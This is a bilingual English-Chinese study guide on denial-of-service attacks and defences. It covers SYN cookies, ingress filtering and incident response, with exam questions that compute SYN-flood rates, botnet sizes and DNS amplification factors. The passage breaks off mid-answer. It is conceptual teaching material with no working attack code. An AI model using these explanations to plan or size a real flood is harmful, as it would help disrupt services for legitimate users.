- Rate limits at ISP routers on packet types that should be a small share of traffic (ICMP echo, UDP to diagnostic services) let other traffic through.在 ISP 路由器上，对那些本应只占很小比例的数据包类型（ICMP echo、发往诊断服务的 UDP 流量）实施速率限制，可以让其他流量通过。
- Block directed broadcasts and suspicious port combinations.阻断定向广播以及可疑的端口组合。
- Keep hosts secure and servers well configured, so that they do not become zombies or intermediaries. Replicate servers over several sites and connections.保证主机安全、服务器配置得当，使它们不会沦为僵尸主机或中间节点。在多个站点和链路上复制服务器。
Step 3: SYN cookies and random drop第 3 步：SYN cookie 与随机丢弃
In words: a SYN cookie = the server keeps no note of the half-open request; it hides the note in the sequence number that the client must send back.用文字表述：SYN cookie = 服务器不记录半开连接请求；它把这份记录藏在客户端必须回送的序号中。
A SYN cookie（SYN Cookie）removes the need to store state. Compare with the attack in Section 23.2.SYN cookie 不再需要保存状态。可与第 23.2 节中的攻击对比。
- A SYN arrives. The server encodes the critical connection information cryptographically in the initial sequence number of the SYN-ACK. This is the cookie. The server creates no table entry.收到一个 SYN。服务器用密码学方法把关键连接信息编码进 SYN-ACK 的初始序号中，这个序号就是 cookie。服务器不创建表项。
- A legitimate client returns an ACK with cookie plus one. The server recomputes the cookie, rebuilds the entry and completes the connection.合法客户端回送一个 ACK，其确认号为 cookie 加一。服务器重新计算 cookie，重建表项，并完成连接。
- A spoofed SYN never produces an ACK, because the forged address owner never saw the SYN-ACK. So it costs no memory.伪造的 SYN 永远不会产生 ACK，因为被伪造地址的真正主人从未收到过 SYN-ACK。因此它不占用内存。
Cookies are normally used only when the table overflows. They show that the source address is real. There is one advantage and there are two disadvantages.通常只在表项溢出时才使用 cookie。它还能证明源地址是真实的。它有一项优点和两项缺点。
| Entry条目 | |
|---|---|
| Advantage优点 | No memory is allocated until the handshake completes握手完成之前不分配内存 |
| Disadvantage 1缺点 1 | CPU time to compute and check the cookie计算和校验 cookie 所需的 CPU 时间 |
| Disadvantage 2缺点 2 | TCP extensions requested in the SYN, such as large windows, cannot be encoded and are lostSYN 中请求的 TCP 扩展选项（例如大窗口）无法编码，因而丢失 |
Random (selective) drop（随机丢弃）: when the table overflows, delete a random incomplete entry to admit the new request. It is probably an attack entry. Otherwise the client retries. A larger table, a shorter timeout and a link rate limit make the attack harder but do not prevent it.随机（选择性）丢弃：表项溢出时，删除一个随机的未完成表项，为新请求腾出位置。被删除的这项很可能是攻击项；否则客户端会重试。更大的表、更短的超时和链路速率限制能使攻击更难，但不能阻止它。
Step 4: application resources and response第 4 步：应用资源与响应
Application resources are defended in the application. A captcha（验证码）separates human-initiated interactions from automated ones. Rate limits keep a degraded service running. To respond, an organisation needs a plan with three parts.应用资源要在应用层进行防御。验证码用于区分人为发起的交互与自动化交互。速率限制可使降级的服务继续运行。为了响应攻击，机构需要一份包含三部分的预案。
- Prepare. Keep ISP technical contacts reachable by non-networked means, because the link may be down. Flooding can only be filtered upstream. Deploy the filters above and monitor traffic against a baseline (IDS, Chapter 22).准备。 确保 ISP 的技术联系人可以通过非网络方式联系上，因为链路可能已经中断。洪泛只能在上游过滤。部署上述过滤措施，并以基线为参照监控流量（IDS，见第 22 章）。
- Identify and filter. Capture and analyse packets, yourself or through the ISP, to find the attack type. The ISP installs filters on its routers. Tracing spoofed sources is slow. Document the evidence if the attack is reported to law enforcement.识别并过滤。 自行或通过 ISP 捕获并分析数据包，以确定攻击类型。ISP 在其路由器上安装过滤器。追溯伪造的源地址很慢。如果要向执法部门报案，需保留好证据记录。
- Contingency and review. If a large distributed or reflected flood cannot be filtered, switch to backup servers, or build new ones at a new site with new addresses. Afterwards analyse the response and improve.应急与复盘。 如果无法过滤大规模的分布式或反射型洪泛，就切换到备用服务器，或在新站点用新地址建设新服务器。事后分析响应过程并加以改进。
The summary table of attacks and defences:攻击与防御的汇总表：
| Attack攻击 | Forged source needed需要伪造源地址 | Backscatter反向散射 | Main defences (where)主要防御（位置） |
|---|---|---|---|
| Flood from one source单一来源洪泛 | Normally通常 | Yes是 | Ingress filtering, rate limits (ISP)入口过滤、速率限制（ISP） |
| SYN spoofingSYN 欺骗 | Yes是 | Yes是 | SYN cookies, random drop, tuning (server)SYN cookie、随机丢弃、参数调优（服务器） |
| DDoS from zombies来自僵尸主机的 DDoS | No否 | No否 | Patched hosts; upstream filtering; spare capacity已打补丁的主机；上游过滤；备用容量 |
| Reflection反射 | Yes是 | No否 | Ingress filtering (ISP); port filters入口过滤（ISP）；端口过滤 |
| Smurf, fraggleSmurf、fraggle | Yes是 | No否 | No directed broadcasts (ISP, organisation)禁止定向广播（ISP、机构） |
| DNS amplificationDNS 放大攻击 | Yes是 | No否 | Ingress filtering; recursion for internal clients only入口过滤；仅为内部客户端提供递归解析 |
| HTTP flood, SlowlorisHTTP 洪泛、Slowloris | No否 | No否 | Captchas, rate limits, delayed binding验证码、速率限制、延迟绑定 |
Practice练习
Q1. (Explain) Explain how SYN cookies work. Give one advantage and two disadvantages.Q1.（解释）解释 SYN cookie 的工作原理。给出一个优点和两个缺点。
Answer
The server keeps no state for a SYN. It encodes the critical connection information cryptographically in the initial sequence number of the SYN-ACK (the cookie). A legitimate client returns an ACK carrying cookie + 1; the server recomputes and checks the cookie, rebuilds the entry it would have stored and completes the connection. A spoofed SYN never gets an ACK, so it costs no memory. Advantage: nothing is allocated until the handshake completes, and the source address is shown to be real. Disadvantages: CPU to compute and check cookies; TCP extensions such as large windows cannot be encoded and are lost.服务器不为 SYN 保存任何状态。它将关键的连接信息以密码学方式编码进 SYN-ACK 的初始序列号（即 cookie）中。合法客户端返回携带 cookie + 1 的 ACK；服务器重新计算并校验 cookie，重建本应保存的表项，并完成连接。伪造的 SYN 永远得不到 ACK，因此不占用内存。优点：在握手完成之前不分配任何资源，并且能证明源地址是真实的。缺点：计算和校验 cookie 需要消耗 CPU；大窗口等 TCP 扩展无法编码，因而会丢失。
Q2. (Matching) For each attack name the most effective defence and where it is applied: (a) smurf; (b) DNS amplification; (c) SYN spoofing; (d) UDP flood to the echo service; (e) HTTP flood from a botnet.Q2.（配对）对于每种攻击，给出最有效的防御措施及其实施位置：（a）smurf；（b）DNS 放大攻击；（c）SYN 欺骗；（d）发往 echo 服务的 UDP 洪泛；（e）来自僵尸网络的 HTTP 洪泛。
Answer
(a) Block directed broadcasts into networks (organisations and ISPs) and apply ingress filtering at the attacker's ISP. (b) Ingress filtering at ISPs; DNS operators restrict recursion to internal clients (RFC 5358). (c) On the server: SYN cookies, random drop, a larger table and a shorter timeout. (d) Rate-limit this packet type at the ISP's routers and disable unneeded diagnostic services. (e) At the application and load balancer: captchas, per-client rate limits, replication.（a）阻断进入网络的定向广播（由机构和 ISP 实施），并在攻击者的 ISP 处实施入口过滤。（b）在 ISP 处实施入口过滤；DNS 运营者将递归解析限制为仅面向内部客户端（RFC 5358）。（c）在服务器上：使用 SYN cookie、随机丢弃、增大连接表并缩短超时时间。（d）在 ISP 的路由器上对该数据包类型实施速率限制，并关闭不需要的诊断服务。（e）在应用层和负载均衡器上：使用验证码、按客户端的速率限制以及服务复制。
Q3. (Analysis) Assume anti-spoofing and directed-broadcast filters are deployed everywhere and botnets are hard to build. Do server administrators still need DoS countermeasures? What remains?Q3.（分析）假设防伪造源地址过滤和定向广播过滤已在各处部署，且僵尸网络很难构建。服务器管理员是否仍需要拒绝服务的对策？还剩下哪些威胁？
Answer
Yes. Floods from real addresses by small botnets or volunteers remain, as do application attacks (cyberslam, HTTP floods, Slowloris, SIP floods), which need no spoofing. A single poison packet can crash a buggy system, and flash crowds overload a site without malice. Measures: spare bandwidth and replicated servers on several links, rate limits and upstream filtering of identified sources, captchas and application-level limits, patching, monitoring against a traffic baseline, and an incident-response plan with ISP contacts.是的。仍然存在来自小型僵尸网络或志愿者、使用真实地址的洪泛攻击，以及无需伪造源地址的应用层攻击（如 cyberslam、HTTP 洪泛、Slowloris、SIP 洪泛）。单个“毒包”即可使存在缺陷的系统崩溃，而突发访问即使并无恶意也会使网站过载。应对措施包括：在多条链路上保留备用带宽并复制服务器，对已识别的来源实施速率限制和上游过滤，使用验证码和应用层限制，及时打补丁，依据流量基线进行监控，以及与 ISP 联系人共同制定的事件响应计划。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| Ping of death, teardrop | Poison packets: ping of death attacks ICMP echo handling, teardrop attacks fragment handling毒包：ping of death 攻击 ICMP 回显的处理，teardrop 攻击分片的处理 |
| Cyberslam | An application attack with valid but costly requests, such as database queries应用层攻击，发送合法但代价高昂的请求，例如数据库查询 |
| Raw socket原始套接字 | The operating-system interface that lets a program write its own source address允许程序自行写入源地址的操作系统接口 |
| Mirai | A botnet of webcams, home routers and baby monitors that attacked the DNS provider Dyn in 2016由网络摄像头、家用路由器和婴儿监护器组成的僵尸网络，2016 年攻击了 DNS 服务商 Dyn |
| Botnet for hire僵尸网络出租 | Botnets are rented out. 40% of DDoS attacks in 2015 came from them僵尸网络被出租。2015 年 40% 的 DDoS 攻击来自这类网络 |
| SIP floodSIP 洪泛 | Many INVITEs, spoofed or from a botnet, that overload the VoIP proxies大量 INVITE 请求（伪造的或来自僵尸网络），使 VoIP 代理过载 |
| Recursive HTTP flood递归 HTTP 洪泛 | Spidering: bots follow all links of the site爬取：机器人顺着网站的所有链接访问 |
| Reverse-path check反向路径检查 | The router checks that the route back to the claimed source uses the arrival interface. It can fail with redundant routing路由器检查回到所声称源地址的路由是否经由数据包到达的接口。冗余路由可能使其失效 |
Exam-style questions考试题型练习
Q1. (SYN spoofing, 12 marks) (a) Describe the TCP three-way handshake and explain how SYN spoofing exploits it (4). (b) A server's table holds 720 half-open entries. It sends the SYN-ACK, retries it five times at 20-s intervals and purges the entry 20 s after the last retry. Find the entry lifetime, the SYN rate that keeps the table full and the bandwidth with 40-byte SYNs (4). (c) Why does the attacker not need a high-capacity link, and how does this differ from a flooding attack (2)? (d) Explain how SYN cookies defend and give two drawbacks (2).Q1.（SYN 欺骗，12 分）（a）描述 TCP 三次握手，并解释 SYN 欺骗如何利用它（4 分）。（b）某服务器的连接表可容纳 720 个半开连接表项。服务器发送 SYN-ACK，以 20 秒为间隔重试 5 次，并在最后一次重试后 20 秒清除该表项。求表项的生存时间、使表项保持满载所需的 SYN 速率，以及使用 40 字节 SYN 时的带宽（4 分）。（c）攻击者为什么不需要高容量链路？这与洪泛攻击有何区别（2 分）？（d）解释 SYN cookie 如何实施防御，并给出两个缺点（2 分）。
Answer
(a) The client sends a SYN; the server stores the request in its table of known connections and answers SYN-ACK; the client replies ACK and both mark the connection established. In SYN spoofing the SYNs carry forged source addresses. The server stores an entry and sends the SYN-ACK to the forged address; no ACK ever returns (the address is unused or the host does not answer), so the entry stays until the retransmissions end. A stream of such SYNs fills the table and new legitimate requests are rejected.（a）客户端发送 SYN；服务器将该请求存入其已知连接表中，并回复 SYN-ACK；客户端回复 ACK，双方均将连接标记为已建立。在 SYN 欺骗中，SYN 携带的是伪造的源地址。服务器会保存一个表项，并将 SYN-ACK 发往伪造的地址；由于该地址未被使用或其主机不予应答，永远不会返回 ACK，因此表项会一直保留到重传结束。大量此类 SYN 会填满连接表，新的合法请求随之被拒绝。
(b) The lifetime is the first SYN-ACK plus five retries, each waited out: \(L=6\times20=120\) s. The rate is \(r=N/L=720/120=6\) SYN/s. The bandwidth is \(B=8\times40\times6=1{,}920\) bit/s, about 1.9 Kbps.（b）表项生存时间为首次 SYN-ACK 加上五次重传，且每次均需等满超时时间：\(L=6\times20=120\) s。速率为 \(r=N/L=720/120=6\) SYN/s。带宽为 \(B=8\times40\times6=1{,}920\) bit/s，约 1.9 Kbps。
(c) The attack targets the connection table (system resources), not the link. It only has to refill the table before entries expire, which takes a trickle of traffic. A flooding attack must exceed the link capacity, so it needs a high-volume connection or many zombies.（c）此攻击针对的是连接表（系统资源），而非链路。它只需在表项过期之前持续补充，这只需要涓涓细流般的流量。洪泛攻击则必须超过链路容量，因此需要高流量连接或大量僵尸主机。
(d) The server encodes the connection information cryptographically in the SYN-ACK's initial sequence number and stores nothing; a valid ACK (cookie + 1) lets it rebuild the entry. Drawbacks: CPU for computing cookies, and TCP options such as large windows are lost.（d）服务器将连接信息以密码学方式编码进 SYN-ACK 的初始序列号中，且不保存任何内容；有效的 ACK（cookie + 1）使其能够重建表项。缺点：计算 cookie 需要消耗 CPU，并且大窗口等 TCP 选项会丢失。
思路：先写寿命 L，再用 N/L；SYN 欺骗打状态，洪泛打带宽。
Q2. (DDoS calculation, 10 marks) A botnet of zombies, each with a 256-Kbps uplink, floods a 100-Mbps link with 1,000-byte UDP packets. (a) How many packets per second saturate the link (2)? (b) How many zombies are needed (3)? (c) Describe the control structure that lets the attacker command them, and say why real source addresses are acceptable (3). (d) Where must the victim's filtering take place, and why (2)?Q2.（DDoS 计算，10 分）一个僵尸网络中的每台僵尸主机都有 256 Kbps 的上行链路，它们以 1,000 字节的 UDP 数据包洪泛一条 100 Mbps 的链路。（a）每秒多少个数据包能使该链路饱和（2 分）？（b）需要多少台僵尸主机（3 分）？（c）描述使攻击者能够控制它们的控制结构，并说明为什么使用真实源地址是可以接受的（3 分）。（d）受害者的过滤应在何处实施，为什么（2 分）？
Answer
(a) 1,000 bytes \(=8{,}000\) bits, so \(r=100{,}000{,}000/8{,}000=12{,}500\) packets/s.（a）1,000 字节 \(=8{,}000\) 位，因此每秒 \(r=100{,}000{,}000/8{,}000=12{,}500\) 个数据包。
(b) One zombie sends \(256{,}000/8{,}000=32\) packets/s. \(n=\lceil100{,}000/256\rceil=\lceil390.6\rceil=391\) zombies (equivalently \(12{,}500/32=390.6\)).（b）一台僵尸主机每秒发送 \(256{,}000/8{,}000=32\) 个数据包，因此需要 \(n=\lceil100{,}000/256\rceil=\lceil390.6\rceil=391\) 台僵尸主机（等价于 \(12{,}500/32=390.6\)）。
(c) The attacker commands a few handlers, which forward each command to many agents (zombies); new agents contact a handler by themselves, so the botnet grows. With so many zombies, reflected replies and identification matter little: the layered, encrypted command channel hides the attacker, and the zombies' real addresses lead only to the zombies.（c）攻击者控制少数控制端，控制端将每条命令转发给大量代理程序（即僵尸主机）；新代理程序会自行联系控制端，因此僵尸网络会不断壮大。由于僵尸主机数量如此之多，反射应答与溯源识别的意义已不大：分层加密的命令通道隐藏了攻击者，而僵尸主机的真实地址只会指向僵尸主机本身。
(d) Upstream, in the ISP's network. The flood already fills the access link before it reaches the target's boundary router, so filtering there cannot restore capacity.（d）在上游，即 ISP 的网络中。洪泛流量在到达目标的边界路由器之前就已经占满了接入链路，因此在那里过滤无法恢复容量。
Q3. (Reflection and amplification, 12 marks) (a) Define a reflection attack and an amplification attack, and name the property they share and the defence that stops both (3). (b) Explain DNS amplification with a 60-byte query and a 4,000-byte response. Compute the amplification factor and the flood a 5-Mbps attacker can create (4). (c) What is the role of open recursive DNS servers, and which defence is specific to DNS amplification (2)? (d) Why does a reflection attack create no backscatter, and why does that matter (3)?Q3.（反射与放大，12 分）（a）定义反射攻击和放大攻击，指出二者共有的性质，以及能同时阻止两者的防御措施（3 分）。（b）以 60 字节查询和 4,000 字节应答为例解释 DNS 放大攻击。计算放大系数，以及一台 5 Mbps 的攻击者能够产生的洪泛流量（4 分）。（c）开放递归 DNS 服务器起什么作用？哪一种防御是 DNS 放大攻击所特有的（2 分）？（d）为什么反射攻击不会产生反向散射？这为什么重要（3 分）？
Answer
(a) In a reflection attack the attacker sends requests to normal servers with the target's address as forged source, so the replies go to the target. An amplification attack does the same, but each request yields several replies (directed broadcast: smurf, fraggle) or one much larger reply (DNS). Both need the forged source; ingress filtering (RFC 2827) at the ISP stops both.（a）在反射攻击中，攻击者向普通服务器发送以目标地址作为伪造源地址的请求，因此应答会发往目标。放大攻击与之相同，但每个请求会产生多个应答（定向广播：smurf、fraggle），或产生一个大得多的应答（DNS）。二者都需要伪造源地址；在 ISP 处实施入口过滤（RFC 2827）可以阻止两者。
(b) The attacker sends 60-byte UDP queries with the target's address as source to many well-connected name servers that hold large records; the servers send 4,000-byte responses to the target. \(A=4{,}000/60\approx66.7\), so 5 Mbps of queries becomes \(66.7\times5\approx333\) Mbps at the target.（b）攻击者向许多拥有大型记录的、连接良好的域名服务器发送以目标地址为源地址的 60 字节 UDP 查询；这些服务器会向目标发送 4,000 字节的应答。\(A=4{,}000/60\approx66.7\)，因此 5 Mbps 的查询流量在目标处变为 \(66.7\times5\approx333\) Mbps。
(c) Open recursive servers resolve queries for anyone and can fetch a large record from anywhere on the Internet, so the attacker is not limited to records on the server. Restricting recursion to internal clients (RFC 5358) is specific to this attack.（c）开放递归服务器会为任何人解析查询，并可从互联网上的任何位置获取大型记录，因此攻击者并不局限于服务器上的记录。将递归解析限制为仅面向内部客户端（RFC 5358）是 DNS 放大攻击所特有的防御措施。
(d) All packets go from the reflectors to the target, so nothing is scattered over the Internet. Evidence exists only at the target, its ISP or the reflectors, so outsiders cannot estimate the attack volume and tracing is harder.（d）所有数据包都从反射器发往目标，因此不会有任何流量散落在互联网上。证据只存在于目标、其 ISP 或反射器处，局外人无法估算攻击规模，追踪也更加困难。
Q4. (Application-level attacks, 8 marks) (a) Explain how Slowloris works (3). (b) Why does a signature-based IDS fail against it, and which countermeasure keeps incomplete requests away from the web server (3)? (c) Compare an HTTP flood with Slowloris in traffic volume (2).Q4.（应用层攻击，8 分）（a）解释 Slowloris 的工作原理（3 分）。（b）为什么基于特征码的 IDS 对它无效？哪一种对策可使不完整的请求无法到达 Web 服务器（3 分）？（c）比较 HTTP 洪泛与 Slowloris 的流量规模（2 分）。
Answer
(a) Slowloris opens many connections to a web server. On each it sends an incomplete request and adds a header line now and then but never the blank line that ends the headers. The server keeps each connection and thread open, until no thread is free for legitimate users.（a）Slowloris 与 Web 服务器建立大量连接。在每个连接上，它发送一个不完整的请求，并不时添加一行请求头，但永远不发送结束请求头的空行。服务器会保持每个连接及其线程处于打开状态，直到合法用户无法获得空闲线程。
(b) The traffic is valid HTTP, exploits no bug and is small, so there is no signature to match. Delayed binding on the load balancer forwards a request only when the complete header has arrived, so the web server never sees the incomplete requests. Limiting the connection rate per host and varying the timeout also help.（b）这些流量是合法的 HTTP，不利用任何漏洞，且规模很小，因此没有可供匹配的特征码。负载均衡器上的延迟绑定只在完整的请求头到达后才转发请求，因此 Web 服务器永远不会看到不完整的请求。限制每个主机的连接速率以及调整超时时间也有帮助。
(c) An HTTP flood is a high volume of valid, costly requests from many bots (millions of requests per second have been reported). Slowloris uses a tiny volume, one short header line per connection every few seconds, from few machines.（c）HTTP 洪泛是来自大量僵尸程序的、大量合法而且代价高昂的请求（据报道每秒可达数百万次请求）。Slowloris 的流量则很小：来自少数机器，每隔几秒在每个连接上发送一行简短的请求头。
Q5. (Scenario analysis, 12 marks) A university web server becomes unreachable. Monitoring shows that 95% of the inbound traffic is 1,400-byte UDP packets with source port 53 from thousands of different DNS servers to random destination ports. The server's CPU is idle and its outbound traffic is small. (a) Identify the attack and justify your answer (3). (b) Why can the university not stop it at its own boundary router (2)? (c) Outline the response (4). (d) Which long-term measures belong to ISPs, DNS operators and the university (3)?Q5.（情景分析，12 分）一所大学的 Web 服务器无法访问。监测显示，入站流量的 95% 是来自数千个不同 DNS 服务器的 1,400 字节 UDP 数据包，源端口为 53，目标端口随机。该服务器的 CPU 处于空闲状态，出站流量很小。（a）识别攻击并说明理由（3 分）。（b）为什么该大学无法在自己的边界路由器上阻止它（2 分）？（c）概述应对方案（4 分）。（d）哪些长期措施应由 ISP、DNS 运营者和该大学分别承担（3 分）？
Answer
(a) DNS amplification (a reflection attack). Packets from source port 53 are DNS responses that nobody requested, sent by many reflectors; their size (1,400 bytes) shows amplification of small forged queries that carried the university's address. The CPU is idle and outbound traffic small, so the bottleneck is the access link: a bandwidth flood.（a）DNS 放大攻击（一种反射攻击）。源端口为 53 的数据包是没有人请求过的 DNS 应答，由许多反射器发出；其大小（1,400 字节）表明，携带该大学地址的小型伪造查询被放大了。CPU 处于空闲状态且出站流量很小，因此瓶颈在接入链路上，这是一次带宽洪泛攻击。
(b) The flood fills the access link before it reaches the boundary router, so filtering there cannot restore capacity. Filters must be installed upstream by the ISP.（b）洪泛流量在到达边界路由器之前就已占满接入链路，因此在那里过滤无法恢复容量。过滤器必须由 ISP 在上游安装。
(c) Follow the incident-response plan. Phone the ISP (out of band, since the network is down). Capture and analyse packets to confirm the type, and have the ISP install filters or rate limits for this pattern. Tracing leads only to the reflectors and is slow, but document the evidence if the attack is reported to law enforcement. If filtering fails, switch to backup servers or a new site with new addresses. Afterwards review the response and improve security.（c）按照事件响应计划执行：通过非网络途径致电 ISP（因为网络已经中断）。抓取并分析数据包，确认攻击类型，并让 ISP 针对该模式安装过滤器或速率限制。追踪只能找到反射器，且速度很慢，但若攻击需要报告执法部门，则应留存证据。若过滤失败，则切换到备用服务器，或在使用新地址的新站点搭建服务器。事后应复盘响应过程，并改进安全措施。
(d) ISPs: ingress filtering (RFC 2827), so forged queries cannot leave their networks. DNS operators: answer recursive queries for internal clients only (RFC 5358). University: monitoring against a traffic baseline, rate limits, replicated servers on several links, and its own resolvers not open to outsiders.（d）ISP：实施入口过滤（RFC 2827），使伪造的查询无法离开其网络。DNS 运营者：仅为内部客户端提供递归解析（RFC 5358）。该大学：依据流量基线进行监控，实施速率限制，在多条链路上部署复制服务器，并确保自身的解析器不向外部开放。
易错：CPU 空闲说明瓶颈是带宽，不是服务器处理能力；过滤必须放在 ISP 上游。
Textbook exercises课后习题
Textbook exercises with answers: 21 questions教材习题及答案，共 21 题，点击展开
E1. (Review Question 7.1, Stallings & Brown) Define a denial-of-service (DoS) attack.E1.（复习题 7.1，Stallings & Brown）请定义拒绝服务（DoS）攻击。
Answer
A denial-of-service attack is an attempt to prevent legitimate users of a service from using it, by exhausting the resources that the service needs. The attacker does not need to break into the system: it is enough to consume the target's network bandwidth, its system resources or its application resources so that legitimate requests are refused or served too slowly. It is an attack on availability.拒绝服务攻击是指通过耗尽服务所需的资源，阻止合法用户使用该服务的企图。攻击者不必侵入系统：只要消耗目标的网络带宽、系统资源或应用资源，使合法请求被拒绝或响应过慢即可。这是一种针对可用性的攻击。
思路：DoS 攻击的是可用性，靠耗尽资源而不是入侵。
E2. (Review Question 7.2, Stallings & Brown) What types of resources are targeted by such DoS attacks?E2.（复习题 7.2，Stallings & Brown）此类 DoS 攻击针对哪些类型的资源？
Answer
Three types of resources are targeted:这类攻击针对三类资源：
- Network bandwidth: the capacity of the link connecting the target to the Internet, which a flood of packets saturates.网络带宽：连接目标与互联网的链路容量，洪水般的数据包会使其饱和。
- System resources: the network handling software of the host, such as the table of TCP connection requests, buffers or CPU time, which a flood of valid-looking packets or a malformed packet exhausts.系统资源：主机的网络处理软件所使用的资源，例如 TCP 连接请求表、缓冲区或 CPU 时间；看起来合法的大量数据包或一个畸形数据包都可能将其耗尽。
- Application resources: the server program itself, such as a Web server whose worker threads or connections are tied up by many valid requests that each need much work or are held open for a long time.应用资源：服务器程序本身，例如 Web 服务器的工作线程或连接被大量合法请求占满，每个请求都需要大量工作或长时间保持打开。
E3. (Review Question 7.3, Stallings & Brown) What is the goal of a flooding attack?E3.（复习题 7.3，Stallings & Brown）洪泛攻击的目标是什么？
Answer
A flooding attack aims to overwhelm the capacity of the network connection to the target by sending traffic at a higher rate than the link can carry. Legitimate packets are then dropped or delayed in the congested link, so the target is cut off from its users even though the target system itself may be untouched. The attacker needs more bandwidth than the target link, which is why distributed attacks are used against large sites.洪泛攻击旨在以高于链路承载能力的速率发送流量，使目标的网络连接容量不堪重负。随后，合法数据包会在拥塞的链路上被丢弃或延迟，因此即使目标系统本身可能完好无损，它也与用户失去联系。攻击者需要的带宽超过目标链路的带宽，这就是为什么对大型网站要使用分布式攻击。
E4. (Review Question 7.4, Stallings & Brown) What types of packets are commonly used for flooding attacks?E4.（复习题 7.4，Stallings & Brown）洪泛攻击通常使用哪些类型的数据包？
Answer
Three types are common:常见的有三类：
- ICMP echo request (ping) packets, which are usually allowed through and may be large.ICMP 回显请求（ping）数据包，通常允许通过，而且可能很大。
- UDP packets sent to some port, often a diagnostic service or a random port, which need no connection and are easy to forge.发往某个端口的 UDP 数据包，端口常为诊断服务端口或随机端口。UDP 不需要建立连接，因此很容易伪造。
- TCP SYN packets, either to flood the link or to fill the table of half-open connections (SYN spoofing).TCP SYN 数据包，既可用于洪泛链路，也可用于填满半开连接表（SYN 欺骗）。
Any packet type that is allowed to reach the target can be used; the attacker picks one that the target's filters let through.任何允许到达目标的数据包类型都可以使用；攻击者会挑选一种能通过目标过滤器的类型。
E5. (Review Question 7.5, Stallings & Brown) Why do many DoS attacks use packets with spoofed source addresses?E5.（复习题 7.5，Stallings & Brown）为什么许多 DoS 攻击要使用源地址被伪造的数据包？
Answer
There are two reasons. First, the attacker hides the real source of the packets, so that tracing the attack back is slow and needs the cooperation of every ISP along the path, and the victim cannot simply block one address. Second, the replies to the forged packets go elsewhere (to the forged address) and do not return to the attacker, so a host that sends the flood does not have to handle replies. Random forged addresses also defeat a filter that blocks a single source. For SYN spoofing a forged address is essential, because the server must never receive the final ACK of the handshake.原因有两点。第一，攻击者隐藏了数据包的真实来源，因此追溯攻击很慢，需要路径上每个 ISP 的配合；受害者也无法简单地封堵某一个地址。第二，对伪造数据包的回复会被发往别处（即伪造的地址），而不会回到攻击者那里，因此发送洪泛流量的主机无需处理回复。随机伪造的地址还能使只封堵单一源地址的过滤器失效。对于 SYN 欺骗而言，伪造地址是必不可少的，因为服务器绝不能收到握手的最后一个 ACK。
E6. (Review Question 7.6, Stallings & Brown) What is "backscatter traffic"? Which types of DoS attacks can it provide information on? Which types of attacks does it not provide any information on?E6.（复习题 7.6，Stallings & Brown）什么是“反向散射流量”？它能为哪些类型的 DoS 攻击提供信息？哪些类型的攻击它完全无法提供信息？
Answer
Backscatter traffic is the set of reply packets that a victim or intermediary sends to the forged source addresses of attack packets. If the forged addresses are chosen at random, the replies are scattered over the whole Internet. Researchers who monitor blocks of unused addresses see a sample of them (for example ICMP echo replies to a ping flood or SYN-ACKs to SYN spoofing) and can estimate the type, scale and targets of such attacks.反向散射流量是受害者或中间节点发往攻击数据包伪造源地址的那些回复数据包的集合。如果伪造地址是随机选取的，这些回复就会分散到整个互联网上。监测未使用地址块的研究人员可以看到其中的一部分样本（例如针对 ping 洪泛的 ICMP 回显应答，或针对 SYN 欺骗的 SYN-ACK），并据此估计此类攻击的类型、规模和目标。
It gives information on flooding and SYN spoofing attacks that use random spoofed sources. It gives none on reflection and amplification attacks, because the forged source is the target and every packet goes to the target; none on attacks that use real source addresses (a DDoS from zombies); and none on application-based attacks.它能为使用随机伪造源地址的洪泛攻击和 SYN 欺骗攻击提供信息。对于反射攻击和放大攻击，它提供不了任何信息，因为伪造的源地址就是目标本身，所有数据包都发往目标；对于使用真实源地址的攻击（来自僵尸主机的 DDoS），它也提供不了任何信息；对于基于应用层的攻击，同样提供不了任何信息。
E7. (Review Question 7.7, Stallings & Brown) Define a distributed denial-of-service (DDoS) attack.E7.（复习题 7.7，Stallings & Brown）请定义分布式拒绝服务（DDoS）攻击。
Answer
A distributed denial-of-service attack is a DoS attack in which the attack traffic is generated by many hosts at the same time, normally a large set of compromised machines (zombies) controlled by the attacker (a botnet). The combined traffic exceeds what a single machine could send, so it can overload even a well-connected target, and because it comes from many sources it is hard to filter and to trace back to the attacker.分布式拒绝服务攻击是指攻击流量由许多主机同时产生的 DoS 攻击，通常来自一大批被攻陷的机器（僵尸主机），它们受攻击者控制（即僵尸网络）。合并后的流量超过任何单台机器所能发出的量，因此即使是网络连接良好的目标也可能被压垮；而且由于流量来自众多来源，很难过滤，也很难追溯到攻击者。
E8. (Review Question 7.8, Stallings & Brown) What architecture does a DDoS attack typically use?E8.（复习题 7.8，Stallings & Brown）DDoS 攻击通常采用什么体系结构？
Answer
A DDoS attack uses a hierarchical architecture. The attacker sends commands to a small number of handler (master) systems, which are compromised hosts running control software. Each handler controls many agent (zombie) systems, compromised hosts that run attack code and send the traffic to the target on command. The handlers hide the attacker, and the large number of agents supplies the traffic volume. The attacker may also use a control channel such as IRC or a Web server instead of fixed handlers.DDoS 攻击采用分层体系结构。攻击者向少数几台（主控）控制端系统发送命令，这些系统是运行控制软件的被攻陷主机。每台控制端又控制许多代理（僵尸）系统，这些代理是运行攻击代码、并按命令向目标发送流量的被攻陷主机。控制端负责隐藏攻击者，而数量众多的代理提供流量规模。攻击者也可以使用 IRC 或 Web 服务器等控制信道来代替固定的控制端。
E9. (Review Question 7.9, Stallings & Brown) Define a reflection attack.E9.（复习题 7.9，Stallings & Brown）请定义反射攻击。
Answer
In a reflection attack the attacker sends request packets to an ordinary server (the reflector) with the target's address forged as the source address. The server answers normally, but its replies go to the target. The attack traffic therefore arrives from many legitimate servers instead of from the attacker, the real source is hidden, and no compromised machines are needed. Connectionless UDP services are the usual choice because they reply to any source address.在反射攻击中，攻击者以目标地址作为伪造的源地址，向普通服务器（即反射器）发送请求数据包。服务器照常应答，但应答会发往目标。因此攻击流量来自许多合法服务器，而不是来自攻击者，真实来源被隐藏，也无需攻陷任何机器。通常选用无连接的 UDP 服务，因为它们会回复任何源地址。
E10. (Review Question 7.10, Stallings & Brown) Define an amplification attack.E10.（复习题 7.10，Stallings & Brown）请定义放大攻击。
Answer
